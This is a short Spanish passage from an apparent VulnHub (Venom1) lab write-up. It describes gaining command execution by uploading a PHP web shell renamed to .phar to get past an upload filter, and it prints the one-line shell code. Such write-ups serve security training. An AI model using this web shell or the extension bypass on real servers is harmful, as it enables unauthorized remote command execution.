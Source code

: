 
## Explotación

---

La idea es subir un archivo PHP para tener ejecución de comandos.

Si intentamos subir un archivo con extensión .php lo sube, pero no se puede visualizar. Burlamos esto cambiando a la extensión `phar` que es interpretada por PHP.

![upload1](/assets/img/commons/vulnhub/venom1/upload1.png){: .center-image }

Con el siguiente código:

```bash
❯ cat cmd.phar
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: cmd.phar
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │ system($_GET['c']);
   3   │ ?>
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Validamos.

![rs1](/assets/img/commons/vulnhub/venom1/rs1.png){: .center-image }

Tenemos ejecución de comandos.
